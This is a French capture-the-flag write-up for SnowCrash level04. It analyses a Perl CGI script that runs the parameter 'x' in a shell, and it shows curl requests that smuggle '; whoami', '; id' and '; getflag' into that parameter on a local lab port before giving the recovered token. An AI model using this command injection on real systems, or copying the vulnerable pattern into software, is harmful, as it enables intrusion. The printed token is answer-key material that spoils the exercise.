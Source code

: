 # level04

1) Information trouvée dans `/home/level04/` :

```bash
./level04.pl
```

2) Analyse du fichier

Le script est un petit CGI/Perl vulnérable qui exécute le contenu du paramètre `x` via des backticks shell :

```perl
use CGI qw{param};
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
La valeur fournie par un visiteur est passée au shell et exécutée.

- confirmer qu'un service écoute sur le port 4747
```bash
level04@SnowCrash:~$ ss -tlnp | grep 4747
LISTEN 0 128 :::4747 :::*     
```
- vérifier sous quel user la commande s'exécutera (test rapide)
```bash
level04@SnowCrash:~$ curl -s 'http://127.0.0.1:4747/?x=%3B+whoami'
flag04
level04@SnowCrash:~$ curl -s 'http://127.0.0.1:4747/?x=%3B+id'
uid=3004(flag04) gid=2004(level04) groups=3004(flag04),1001(flag),2004(level04)
```

Les réponses confirment que le script est actif et exécutera toute commande passée via le paramètre `x`.

4) Exploitation pour récupérer le token :

Le payload consiste à séparer la commande `echo` initiale de la commande malveillante par un `;` et à appeler `getflag` :

```bash
curl 'http://127.0.0.1:4747/?x=%3B+getflag'
```

4) Token découvert :

le token est `ne2searoevaevoem4ov4ar8ap`
